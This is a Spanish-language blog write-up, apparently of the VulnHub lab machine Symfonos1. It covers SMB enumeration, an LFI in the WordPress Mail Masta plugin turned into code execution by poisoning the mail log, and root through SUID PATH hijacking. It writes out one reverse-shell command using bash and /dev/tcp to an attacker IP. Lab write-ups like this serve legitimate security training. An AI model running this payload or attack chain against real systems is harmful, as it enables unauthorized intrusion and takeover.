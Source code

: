 ```yaml
---
layout: single
title: Symfonos1 - VulnHub
date: 2023-09-09
classes: wide
header:
  tease: 
categories:
  - Vulnhub
  - Easy
  - Linux
tags:
  - Vulnhub
  - SMB enumeration
  - Wordpress enumeration
  - LFI to RCE via SMT log
  - Abusing Wordpress plugin Mail Masta
  - SUID + Path Hijacking
---
```


![](../assets/images/Symfonos1/symfonos1.png)

# Fase de reconocimiento
---
Empezamos realizando un escaneo con `arp-scan` a la red para averiguar la IP de la máquina:
 
![](../assets/images/Symfonos1/arp.png)

Ahora realizamos un `ping` a la máquina para ver si nos responde.
Vemos que el *TTL* es *64* lo que nos indica que es una máquina **Linux**

![](../assets/images/Symfonos1/ping.png)

Empezamos ahora el reconocimiento de los puertos utilizando `nmap`, primero
escaneamos todo el rango de puertos.

![](../assets/images/Symfonos1/nmap1.png)

Ahora sobre estos puertos, hacemos un escaneo más profundo para detectar versión y servicio.

![](../assets/images/Symfonos1/nmap2.png)

# Fase de explotación
---
## SMB información expuesta
El puerto **445** y el **139** estás abiertos y son de *SMB*. Utilizando la herramienta `smbmap` vamos a ver si encontramos algo.
Vemos que tenemos permisos de lectura en **anonymous** y además vemos un posible usuario `helios`.

![](../assets/images/Symfonos1/smbmap1.png)

Vamos a ver que hay en el recurso compartido de **anonymous**.
Tenemos un archivo llamado `attention.txt` que vamos a descargarnos para ver que contiene.

![](../assets/images/Symfonos1/smbclient.png)


En este archivo de texto encontramos una fuga de información donde podemos posibles credenciales de usurios.

![](../assets/images/Symfonos1/attention.png)

Probando con las credenciales, conseguimos ver el contenido del recurso compartido de `helios`

![](../assets/images/Symfonos1/smbclient2.png)

Nos descargamos los archivos y vemos esto en el archivo `todo.txt`, donde encontramos una nueva ruta de la web.

![](../assets/images/Symfonos1/todo.png)




## Fuzzing y enumeración Worpress
---
Hacemos fuzzing sobre esta nueva ruta para descubrir archivos y directorios.

![](../assets/images/Symfonos1/fuzzing.png)

Vemos que nos encontramos frente a un **Wordpress** asi que podemos utilizar la herramienta `wpscan` para enumerarlo.
La herramienta nos reporta que hay un **LFI** en el plugin **Mail masta**

![](../assets/images/Symfonos1/wpscan.png)

Hacemos una busqueda en searchsploit para investigar esta vulnerabilidad

![](../assets/images/Symfonos1/searchsploit.png)


## LFI to RCE via SMTP log
---
Confirmamos que se produce un **LFI** y ahora vamos a apuntar al archivo `/var/mail/helios` para que interprete el código php que
vamos a enviar al log de la siguiente manera:

![](../assets/images/Symfonos1/sendemai.png)

Ahora apuntamos a `/var/mail/helios` y le metemos `&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.41/443 0>%261"` para mandarnos una **Rerverse Shell**

![](../assets/images/Symfonos1/reverseshell.png)

# Escalada de priveligos
---
Examinando el sistema, vemos que tenemos permiso *SUID* sobre este binario peculiar.

![](../assets/images/Symfonos1/find.png)

Examinandolo con `strings`, vemos que se está ejecutando el comando `curl` de forma relativa. Esto es un problema, porque da lugar a un **Path Hijacking**
de la siguiente manera.

1 - Modificamos el PATH de la siguiente manera
![](../assets/images/Symfonos1/path.png)

2 - Creamos un archivo llamado `curl` en `/tmp/` y le damos permisos de ejecución <br>
![](../assets/images/Symfonos1/bash-p.png)

3 - Ejecutamos el binario y ya seríamos `root` 
<br>
![](../assets/images/Symfonos1/root.png)












